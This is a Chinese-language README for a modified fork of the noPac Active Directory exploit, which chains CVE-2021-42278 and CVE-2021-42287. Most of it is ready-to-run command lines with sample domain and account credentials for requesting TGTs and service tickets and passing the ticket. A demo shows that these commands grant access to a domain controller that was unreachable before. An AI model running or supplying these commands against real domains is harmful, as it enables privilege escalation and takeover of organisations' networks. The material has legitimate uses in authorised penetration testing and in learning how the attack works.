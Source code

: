 # noPac

这个项目的由来是出于对 noPac 的原理学习, 在 [cube0x0](https://github.com/cube0x0/noPac) 的项目基础上进行了一些更改. 源码中添加了个人的理解注释.

- 删除了 Scan 功能, 个人觉得 Scan 功能用处比较鸡肋.
- 增加了 MachineAccountQuota 值的判断, 如果为 0 则退出程序.
- 优化了添加计算机帐户时的判断处理.
- 增加了 TGT 的输出.

## 利用条件

noPac 是 CVE-2021-42278 (sAMAccountName spoofing) & CVE-2021-42287 (deceiving the KDC) 两个漏洞的组合利用, 只有同时满足这两个漏洞的利用条件才能成功利用.

## 使用方法

```
Examples: Get TGT and ST

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword /service altservice

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs

Examples: PTT

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword /service altservice /ptt

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

比较常用的方法是 PTT:

```PowerShell
noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

## Demo

利用 noPac 前无权访问 DC.

![](Images/Pasted%20image%2020221222145605.png)

利用 noPac.

```PowerShell
noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

![](Images/Pasted%20image%2020221222145709.png)

PTT 后在当前窗口再次访问 DC 即可成功访问.

![](Images/Pasted%20image%2020221222145734.png)

## 利用环境

注意程序只能运行在 .NET 4.0+ 环境的机器上, Windows Server 2012 默认带 .NET 4.0, Windows Server 2008 默认带 .NET 3.5.

查看机器上存在的 .NET 版本:

```PowerShell
dir c:\Windows\Microsoft.NET\Framework64
```

![](Images/Pasted%20image%2020221222151109.png)
